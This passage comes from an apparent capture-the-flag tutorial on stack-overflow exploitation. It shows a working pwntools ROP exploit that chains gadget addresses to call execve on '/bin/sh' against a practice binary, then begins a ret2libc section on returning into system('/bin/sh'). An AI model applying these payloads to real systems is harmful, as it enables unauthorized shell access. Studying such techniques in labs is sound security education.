Then you need to obtain the address corresponding to the `/bin/sh` string.

<div align=center><img src="./images/25.png"></div>

Finally get the address of `int 0x80`.

<div align=center><img src="./images/26.png"></div>

`exploit` is as follows:

```python
# coding=utf-8
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x080be408

# flat module can combine pattern strings and addresses and convert them to byte mode
payload = flat(['a' * 0x70, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

<div align=center><img src="./images/29.png"></div>

## ret2libc
### Principle
`ret2libc` is the function in `libc` that controls the execution of the function. It usually returns to the `plt` of a certain function or the specific position of the function (i.e. the content of the `got` table entry corresponding to the function). Generally, we will choose to execute `system("/bin/sh")`, so we need to know the address of the `system` function at this time.

### Example 1
Program download link: [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1).
